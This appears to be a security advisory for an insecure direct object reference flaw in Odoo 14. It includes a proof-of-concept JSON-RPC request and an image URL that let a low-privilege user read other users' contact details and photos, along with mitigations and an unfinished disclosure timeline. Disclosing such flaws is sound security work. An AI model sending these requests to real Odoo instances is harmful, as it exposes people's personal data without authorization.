 # Odoo 14 - Insecure Direct Object Reference (IDOR) / Broken Access Control

## 📌 CVE ID
- Pending assignment from MITRE

## 📌 Description
A vulnerability in **Odoo 14** allows authenticated low-privilege users (with no assigned roles) to access sensitive customer and employee data.  
The endpoints `/web/dataset/call_kw/res.partner/read` and `/web/image` do not enforce proper access control, resulting in unauthorized disclosure of Personally Identifiable Information (PII).

---

## 🎯 Affected Versions
- Odoo 14 (Community & Enterprise)  
- Other versions (15, 16, 17) not tested yet.  

---

## 🛠 Vulnerability Type
- Insecure Direct Object Reference (IDOR)  
- Broken Access Control  
- Sensitive Information Disclosure  

---

## ⚠️ Impact
- Unauthorized exposure of customer and employee data:
  - Full names  
  - Emails  
  - Phone numbers  
  - Job titles  
  - Company addresses  
  - Profile images (Base64 encoded)  
- Potential compliance violation (GDPR, CCPA).  
- Risk of further data mining.  

**CVSS v3.1 Vector (example):**  
`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **Score: 7.5 (High)**  

---

## 🧪 Steps to Reproduce (PoC)

1. Login with a **basic user account** (no special roles).  
2. Intercept the following request in Burp Suite:

```http
POST /web/dataset/call_kw/res.partner/read HTTP/1.1
Host: target-odoo:8069
Content-Type: application/json
Cookie: session_id=<valid_session_id>

{
 "jsonrpc": "2.0",
 "method": "call",
 "params": {
   "args": [[39], ["id","name","email","phone","function","image_128"]],
   "model": "res.partner",
   "method": "read",
   "kwargs": {}
 },
 "id": 12345
}
```

3. Response returns details of another user:

```json
{
 "id": 39,
 "name": "Chester Reed",
 "email": "chester.reed79@example.com",
 "phone": "(979)-904-8902",
 "function": "Chief Executive Officer (CEO)",
 "image_128": "/9j/4AAQSkZJRgABAQEASABIAAD..."
}
```

4. Similarly, user images can be accessed directly:

```http
GET /web/image?model=res.users&field=image_128&id=8
```

→ Returns profile photo of another user.  

---

## 📷 Evidence
![Request 1](/evidence/Screenshot_2025-08-25_132025.png)  
![Request 2](/evidence/Screenshot_2025-08-25_132045.png)  
![Request 3](/evidence/Screenshot_2025-08-25_132147.png)  
![Request 4](/evidence/Screenshot_2025-08-25_132203.png)  
![Request 5](/evidence/Screenshot_2025-08-25_132300.png)  
![Request 6](/evidence/Screenshot_2025-08-25_132432.png)  
![Request 7](/evidence/Screenshot_2025-08-25_132456.png)  

---

## 🔒 Mitigation
- Enforce record rules on `res.partner` and `res.users` models.  
- Add access control checks before returning PII.  
- Restrict `/web/image` to authorized users only.  
- Ensure ORM respects ACL/Record Rules for all JSON-RPC endpoints.  

---

## 📅 Disclosure Timeline
- 2025-08-25: Vulnerability discovered on Odoo 14 demo.  
- [Date]: Contacted Odoo Security Team.  
- [Date]: No response received.  
- [Date]: Requesting CVE from MITRE.  

---

## 👤 Credits
- Researcher: **Abdulaziz Alanazi - Resilience**
